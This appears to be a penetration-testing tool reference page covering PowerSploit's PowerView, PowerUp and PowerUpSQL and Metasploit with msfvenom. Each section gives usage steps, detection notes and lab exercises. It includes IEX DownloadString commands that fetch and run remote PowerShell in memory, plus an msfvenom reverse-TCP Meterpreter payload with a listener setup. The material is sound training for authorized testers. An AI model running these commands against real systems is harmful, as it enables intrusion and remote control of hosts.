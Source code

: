 ### PowerView + PowerUp + PowerUpSQL

These are PowerShell-based post-exploitation and enumeration tools, part of the PowerSploit framework. **When to use it:**

- **PowerView:** For extensive enumeration of an Active Directory domain (users, groups, computers, GPOs, ACLs) from a compromised host.
- **PowerUp:** To find local privilege escalation vectors on a Windows host (e.g., unquoted service paths, weak service permissions, AlwaysInstallElevated).
- **PowerUpSQL:** To discover, enumerate, and attack SQL Server instances within a domain. **Quick usage (learning):** These are PowerShell scripts, typically loaded into memory to avoid writing to disk.

PowerShell

```
# Load PowerView into the current PowerShell session
IEX (New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/master/Recon/PowerView.ps1')

# Get information about the current domain
Get-NetDomain

# Find local privilege escalation vulnerabilities with PowerUp
IEX (New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/master/Privesc/PowerUp.ps1')
Invoke-AllChecks

# Discover SQL servers on the domain with PowerUpSQL
IEX (New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/NetSPI/PowerUpSQL/master/PowerUpSQL.ps1')
Get-SQLInstanceDomain
```

**Common flags / options:** These are PowerShell cmdlets, not executables with flags. They use standard PowerShell parameter syntax (e.g., `-Identity <UserName>`, `-Domain <DomainName>`). **Authorized commands (AUTHORIZED‑ONLY):** Advanced actionable guidance requires proof of authorization. **Defensive/detection notes:**

- Enable PowerShell Script Block Logging (Event ID 4104) and Module Logging to capture the execution of these scripts.
- Constrain PowerShell language mode to prevent advanced functions used by these tools.
- AMSI (Antimalware Scan Interface) can detect and block malicious PowerShell scripts in memory.
- Regularly patch systems and audit for the misconfigurations that PowerUp finds. **Recommended lab exercise:** On a Windows VM, download and run PowerUp's `Invoke-AllChecks` to identify local misconfigurations. For PowerView, join the machine to an AD lab and run `Get-NetForest` to enumerate domain information. **Further reading / official docs:**
- PowerSploit GitHub: `https://github.com/PowerShellMafia/PowerSploit`
- PowerUpSQL GitHub: `https://github.com/NetSPI/PowerUpSQL`

### Metasploit + msfvenom

The Metasploit Framework is a powerful open-source platform for developing, testing, and executing exploits. `msfvenom` is its standalone payload generator. **When to use it:**

- **Metasploit:** To exploit known vulnerabilities in systems, networks, and applications.
- **Metasploit:** As a comprehensive post-exploitation framework for pivoting, privilege escalation, and data exfiltration.
- **Metasploit:** To manage sessions, listeners, and payloads during a penetration test.
- **msfvenom:** To generate custom shellcode and payloads (e.g., reverse shells, bind shells) in various formats for different operating systems and architectures. **Quick usage (learning):**

1. **Generate a payload with `msfvenom`:**
    
    bash
    
    ```
    # Generate a Windows reverse TCP shell payload
    msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=<YOUR_IP> LPORT=4444 -f exe -o shell.exe
    ```
    
2. **Set up a listener in Metasploit (`msfconsole`):**
    
    Code
    
    ```
    msf6 > use exploit/multi/handler
    msf6 exploit(multi/handler) > set payload windows/x64/meterpreter/reverse_tcp
    msf6 exploit(multi/handler) > set LHOST <YOUR_IP>
    msf6 exploit(multi/handler) > set LPORT 4444
    msf6 exploit(multi/handler) > run
    ```
    
3. Execute `shell.exe` on the target machine to receive a connection. **Common flags / options:**

- **msfvenom:**
    - `-p`: Payload to use.
    - `-f`: Output format (e.g., `exe`, `py`, `dll`).
    - `LHOST`: Listening host (your IP).
    - `LPORT`: Listening port.
    - `-o`: Output file.
- **msfconsole:**
    - `use <module>`: Select an exploit or auxiliary module.
    - `set <OPTION> <VALUE>`: Configure module options.
    - `show options`: Display available options for the current module.
    - `run` or `exploit`: Execute the module. **Authorized commands (AUTHORIZED‑ONLY):** Advanced actionable guidance requires proof of authorization. **Defensive/detection notes:**
- Antivirus and Endpoint Detection and Response (EDR) solutions are designed to detect Metasploit's default payloads and Meterpreter activity.
- Network IDS/IPS can detect staging traffic and common exploit signatures.
- Regularly patch systems to eliminate the vulnerabilities that Metasploit exploits. **Recommended lab exercise:** Use Metasploit to exploit the "vsftpd backdoor" vulnerability on a Metasploitable 2 VM. This is a classic beginner-friendly exploit. **Further reading / official docs:**
- Metasploit Framework Documentation: `https://docs.metasploit.com/`
- Offensive Security (Metasploit Unleashed): `https://www.offsec.com/metasploit-unleashed/`